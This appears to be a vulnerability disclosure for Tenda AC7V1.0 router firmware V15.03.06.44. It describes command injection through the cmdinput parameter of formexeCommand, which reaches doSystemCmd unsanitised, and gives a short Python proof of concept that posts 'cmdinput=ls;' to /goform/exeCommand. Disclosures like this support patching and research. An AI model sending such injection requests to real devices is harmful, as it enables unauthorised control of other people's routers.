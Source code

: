 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2776.html

## Affected version

 AC7V1.0 V15.03.06.44

## Vulnerability details

In the Tenda AC7V1.0 V15.03.06.44 firmware, we discovered a command injection vulnerablility in `formexeCommand` function in the `cmdinput` parameter and the `str` varable is assigned to `cmd_buf` variable, which is directly used in `doSystemCmd` function, causing an arbitrary command execution. The user-provided `cmdinput` can trigger this security vulnerability.

![image-20240407163019387](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240407163019387.png)

![image-20240407163027991](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240407163027991.png)

## POC

```python
import requests
IP = "192.168.84.102"
url = f"http://{IP}/goform/exeCommand"
data = "cmdinput=ls;"
ret = requests.post(url=url,data=data)
```

![image-20240407162830240](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240407162830240.png)
